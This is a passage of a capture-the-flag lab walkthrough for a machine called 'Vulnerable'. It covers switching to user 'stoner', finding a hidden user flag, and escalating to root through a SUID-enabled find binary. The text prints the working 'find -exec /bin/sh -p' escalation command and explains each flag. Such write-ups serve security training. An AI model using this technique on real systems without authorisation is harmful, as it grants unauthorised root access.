Neither search found anything.

## Privilege Escalation to stoner

```shell
basterd@Vulnerable:~$ su stoner
Password:
stoner@Vulnerable:/home/basterd$ whoami
stoner
```

Switching to `stoner` with the recovered password worked straight away.

## User Flag

```shell
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
```

A hidden `.secret` file sat in `stoner`'s home directory.

```shell
stoner@Vulnerable:~$ cat .secret
—REDACTED—
```

At first I took this for just a congratulatory message, but checking the room's answer format showed this was in fact the user flag.

**Answer:** `—REDACTED—`

## Privilege Escalation to root

```shell
stoner@Vulnerable:~/.nano$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

That entry was another troll. As my next step, I enumerated for SUID binaries.

```shell
stoner@Vulnerable:~/.nano$ find / -perm -04000 -type f -ls 2>/dev/null
   264453     40 -rwsr-xr-x   1 root     root        38900 Mar 26  2019 /bin/su
   276977     32 -rwsr-xr-x   1 root     root        30112 Jul 12  2016 /bin/fusermount
   260151     28 -rwsr-xr-x   1 root     root        26492 May 15  2019 /bin/umount
   260156     36 -rwsr-xr-x   1 root     root        34812 May 15  2019 /bin/mount
   260172     44 -rwsr-xr-x   1 root     root        43316 May  7  2014 /bin/ping6
   260171     40 -rwsr-xr-x   1 root     root        38932 May  7  2014 /bin/ping
   394226     16 -rwsr-xr-x   1 root     root        13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   416088     16 -rwsr-xr--   1 root     www-data    13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
   416085     16 -rwsr-xr--   1 root     www-data    13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
   260101     48 -rwsr-xr--   1 root     messagebus    46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   264108    504 -rwsr-xr-x   1 root     root         513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   260699      8 -rwsr-xr-x   1 root     root           5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   265132     36 -rwsr-xr-x   1 root     root          36288 Mar 26  2019 /usr/bin/newgidmap
   260428    228 -r-sr-xr-x   1 root     root         232196 Feb  8  2016 /usr/bin/find
   278157     52 -rwsr-sr-x   1 daemon   daemon        50748 Jan 15  2016 /usr/bin/at
   263308     40 -rwsr-xr-x   1 root     root          39560 Mar 26  2019 /usr/bin/chsh
   263304     76 -rwsr-xr-x   1 root     root          74280 Mar 26  2019 /usr/bin/chfn
   263305     52 -rwsr-xr-x   1 root     root          53128 Mar 26  2019 /usr/bin/passwd
   260641     36 -rwsr-xr-x   1 root     root          34680 Mar 26  2019 /usr/bin/newgrp
   263253    160 -rwsr-xr-x   1 root     root         159852 Jun 11  2019 /usr/bin/sudo
   264477     20 -rwsr-xr-x   1 root     root          18216 Mar 27  2019 /usr/bin/pkexec
   263306     80 -rwsr-xr-x   1 root     root          78012 Mar 26  2019 /usr/bin/gpasswd
   265133     36 -rwsr-xr-x   1 root     root          36288 Mar 26  2019 /usr/bin/newuidmap
```

`/usr/bin/find` stood out. Consulted GTFOBins and it confirmed that it could indeed be abused for privilege escalation.



```shell
stoner@Vulnerable:~/.nano$ find . -exec /bin/sh -p \; -quit
# whoami
root
```

**Breakdown:**

- `.` searches the current directory only
- `-exec /bin/sh -p \;` runs `/bin/sh` for each match found; `-p` tells the shell to preserve its effective (elevated) privileges rather than dropping them to the invoking user's, and `\;` terminates the `-exec` argument list
- `-quit` stops `find` immediately after the first match, so the shell only spawns once

Because `find` carries the SUID bit, the spawned shell inherited root's effective privileges instead of `stoner`'s own, and that worked straight away.

Navigated to the root directory to see if the root flag was there—and to my surprise (because of how unconventional this lab had been), it was, and was even named `root.txt`. 

```shell
# cd /root
# ls
root.txt
# cat root.txt
—REDACTED—
```

## Root Flag

**Answer:** `—REDACTED—`